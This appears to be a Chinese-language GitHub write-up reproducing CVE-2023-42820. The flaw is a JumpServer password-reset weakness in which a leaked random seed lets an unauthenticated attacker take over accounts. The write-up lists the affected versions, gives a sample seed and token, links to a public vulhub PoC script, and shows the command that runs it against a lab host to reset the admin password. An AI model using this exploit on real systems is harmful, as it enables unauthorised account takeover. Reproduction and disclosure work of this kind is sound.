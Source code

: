 # CVE-2023-42820

> **Created by：** A-little-dragon
>
> **Team：** TracelessSec
>
> **漏洞描述：** 随机数种子泄漏造成用户接管漏洞



## **0x01 漏洞描述**

JumpServer中存在密码重置漏洞，由于第三方库将随机种子数暴露给了API，可能导致随机验证码被重放，未经身份验证的远程攻击者通过构造恶意请求重置密码。

## **0x02** 影响版本

```bash
2.24 <= JumpServer < 3.6.4
# 2.27与3.1.0均测试失败
```

## **0x03** 漏洞复现

![Untitled](image/Untitled.png)

种子是294816dc6b154dc5c81c39d993561193efe21311

![Untitled](image/Untitled%201.png)

查看数据包

![Untitled](image/Untitled%202.png)

得到token nqDVRsbc2wS6tLcRD7kyeSqUW5oLZaPpfqJh

使用该工具

```json
https://github.com/vulhub/vulhub/blob/master/jumpserver/CVE-2023-42820/poc.py
```

执行命令

```json
python poc.py -t http://192.168.20.141 --email admin@mycomany.com --seed 294816dc6b154dc5c81c39d993561193efe21311 --token nqDVRsbc2wS6tLcRD7kyeSqUW5oLZaPpfqJh
```

![Untitled](image/Untitled%203.png)

填写信息

![Untitled](image/Untitled%204.png)

![Untitled](image/Untitled%205.png)

![Untitled](image/Untitled%206.png)